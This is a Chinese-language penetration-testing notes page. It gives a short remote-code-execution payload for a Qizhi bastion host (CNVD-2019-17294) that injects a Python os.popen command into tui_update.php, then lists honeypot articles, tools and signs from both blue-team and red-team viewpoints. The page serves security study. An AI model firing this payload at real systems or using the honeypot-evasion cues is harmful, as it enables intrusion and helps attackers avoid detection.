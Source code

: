 - **CNVD-2019-17294 齐治堡垒机后台存在命令执行漏洞**
    - [齐治堡垒机后台存在命令执行漏洞（CNVD-2019-17294）分析](https://www.cnblogs.com/StudyCat/p/11197986.html)

- **远程代码执行**
    - POC | Payload | exp
        ```
        POST /shterm/listener/tui_update.php

        a=["t';import os;os.popen('whoami')#"]
        ```

---

# 网络检测与响应

## 蜜罐

**相关文章**
- [【格物实验室】浅谈物联网蜜罐识别方法](http://blog.nsfocus.net/iot-honeypot-1111/)
- [红队遇蜜罐 莫慌](https://mp.weixin.qq.com/s/YBge1xjpjQjQ-NoK4kK6RQ)
- [浅谈Mysql蜜罐识别](https://mp.weixin.qq.com/s/f30RvhYlB97dXnjzv4_H_Q)
- [浅析开源蜜罐识别与全网测绘](https://mp.weixin.qq.com/s/ll-vIoPhBMxYVTKm3UJ8lQ)
- [蜜罐建设的一些思考](https://mp.weixin.qq.com/s/_hpJP6bTuoH-3cQtDawGOw)

**相关工具**
- [BeichenDream/WhetherMysqlSham](https://github.com/BeichenDream/WhetherMysqlSham) - 检测目标 Mysql 数据库是不是蜜罐,获取目标数据库详细信息
- [Monyer/antiHoneypot](https://github.com/Monyer/antiHoneypot) - 一个拦截蜜罐 XSSI 的 Chrome 扩展

**从蓝队溯源角度出发**
- 分析样本
    - PC 名称
    - 语言
    - 常用函数、方法
    - 注释习惯、变量名习惯
- 前端漏洞反制
    - 浏览器记录、书签、cookie 等
    - 验证码、手机号、邮箱
    - 攻击时间段
- 后渗透反制
    - 钓鱼文件
    - ntlm中继
    - Rogue MySql Server

**从红队角度出发**
- 前台
    - 不支持正常浏览器，仅老版 IE
    - 仅支持老版本 flash
    - 不正常的 JS 文件，js 混淆
    - 仅 json 文件, 内含指纹
    - XSS、JSONP
    - 大量网络请求
    - 同站同 CMS 不同页面不同时间、CMS 版本
    - 任意口令登陆?
    - 要求实名认证、或手机号注册
- 后渗透
    - 第二次登陆后发现 history 记录全部清空
    - 开放了大量端口
    - docker 容器且无正常业务数据
    - 例如 cat /proc/meminfo 这个命令无论执行多少次得到的内容都是不变的，而这真实的系统中是不可能的。
